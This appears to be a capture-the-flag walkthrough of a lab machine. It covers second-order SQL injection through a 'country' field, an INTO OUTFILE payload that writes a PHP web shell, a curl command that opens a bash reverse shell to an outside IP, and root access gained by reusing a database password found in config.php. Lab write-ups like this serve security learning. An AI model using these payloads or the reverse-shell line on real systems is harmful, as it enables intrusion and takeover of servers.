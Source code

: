 1, Enumerate the port 
22/tcp ssh
80/tcp http
4556/tcp http
8080/tcp http

2, Check these websites
port 80 :fuzz the web-content : but there is nothing useful for us
port 4566 :it give us the code 403 forbidden, so we guess it need cookies or something.
![](images/Pasted%20image%2020240731024054.png)
we have tried some existed user cookie, but it did not work.
So this port would be especially for admin or manager.

come to the main website,it use POST method to account.php.
then we can check our input on the next page, so we can try to get some SSTI vulners .

for the cookie, we can check its progress of creation.

3,exploition
Let's try some Sqlite injection
When we take `username=admin&country=Brazil'
the account.php would give us some error messages:
`**Fatal error**: Uncaught Error: Call to a member function fetch_assoc() on bool in /var/www/html/account.php:33 Stack trace: #0 {main} thrown in **/var/www/html/account.php** on line **33**`

So it clearly give us some evidence of sql injection has happened and it was a second order sql injection.

Let's exploit it and try to reverse a shell for us.
We can make a sqlite script or we can still use the burpsuite repeater.

The union select would be great but it would be very hard to check everything by ourselves.
`username=admin&country=Brazil' UNION SELECT 1-- -`
So we can make a file by using sql .
`username=admin&country=Brazil' UNION SELECT "<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE
`'/var/www/html/shell.php'-- -`
then curl it and get the web shell and use it to make the reverse shell.
`curl 10.10.11.116/shell.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.16.3/443 0>&1"'`

4, enumerate the server and check the files.
firstly , the config.php has give us some useful infomation
	`  $servername = "127.0.0.1";
	  `$username = "uhc";
	  `$password = "uhc-9qual-global-pw";
	  `$dbname = "registration";`
	`$conn = new mysqli($servername, $username, $password, $dbname);`
So let's check the database and get some credits.

But there is nothing interesting in registration database!!!!!
So let's check another database mysql.
So upset , there is no passwords for local users or root.

But there is something surprise me, the root password is same as the database password!

then we can get root shell!


5, beyond the root.
when we try to exploit sql injection, If we do not have permission to write to the file, we can only use UNION select to enumerate the database, but manual operation is too inefficient, so we can use a script to save time.



